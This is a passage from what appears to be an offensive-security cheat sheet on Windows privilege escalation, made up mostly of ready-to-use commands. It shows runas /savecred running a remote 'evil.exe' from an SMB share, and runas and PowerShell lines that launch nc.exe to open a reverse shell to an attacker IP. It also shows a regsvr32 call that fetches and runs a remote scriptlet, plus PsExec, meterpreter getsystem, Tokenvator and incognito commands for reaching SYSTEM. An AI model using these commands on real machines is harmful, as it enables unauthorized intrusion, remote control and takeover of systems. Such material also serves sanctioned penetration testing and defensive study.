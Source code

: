 Then you can use `runas` with the `/savecred` options in order to use the saved credentials. 
The following example is calling a remote binary via an SMB share.
```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - From local administrator to NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```

## EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

* Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
Have extra "unexpected" functionality. It is not interesting to document intended use cases.
Exceptions are application whitelisting bypasses
* Have functionality that would be useful to an APT or red team

```powershell
wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```

## EoP - Impersonation Privileges

### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```
